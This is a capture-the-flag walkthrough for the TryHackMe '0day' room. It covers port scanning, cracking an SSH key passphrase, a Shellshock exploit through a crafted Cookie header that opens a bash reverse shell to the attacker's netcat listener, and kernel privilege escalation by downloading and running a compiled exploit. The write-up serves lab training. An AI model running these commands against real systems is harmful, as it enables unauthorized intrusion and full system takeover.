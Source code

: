 # 0day

**Room Link:** [https://tryhackme.com/room/0day](https://tryhackme.com/room/0day)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (434).png" alt=""><figcaption></figcaption></figure>





This appeared to be a rabbit hole but I found a key and was able to bruteforce the password for it.

<figure><img src="../../.gitbook/assets/image (427).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600 id_rsa
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (428).png" alt=""><figcaption></figcaption></figure>

I found a cgi file. i tried checking if it was vulnerable to shellshock which wasn't working but it was vulnerable.&#x20;

**Kali**

```
gobuster dir -u http://$VICTIM/cgi-bin/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,cgi
```

<figure><img src="../../.gitbook/assets/image (435).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**Link:** [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)

**Kali#1**

```
nc -lvnp 4242
```

**Kali #2**

```
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/$KALI/4242 0>&1' http://$VICTIM/cgi-bin/test.cgi 
```

<figure><img src="../../.gitbook/assets/image (429).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



## Privilege Escalation

**Victim**

```
uname -a 
```

<figure><img src="../../.gitbook/assets/image (431).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
searchsploit 3.13.0
searchsploit -m linux/local/37292.c
gcc 37292.c -o exploit
python2 -m SimpleHTTPServer 81
```

<figure><img src="../../.gitbook/assets/image (430).png" alt=""><figcaption></figcaption></figure>

The exploit didn't work as it's complaining that it can't create dynamic library

**Victim**

```
cd /tmp/
wget http://10.10.91.55:81/exploit
chmod +x exploit
./exploit
```

<figure><img src="../../.gitbook/assets/image (432).png" alt=""><figcaption></figcaption></figure>

To fix this we just had to export the binpath from the machine

**Victim**

```
export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin
./exploit
```

<figure><img src="../../.gitbook/assets/image (433).png" alt=""><figcaption></figcaption></figure>



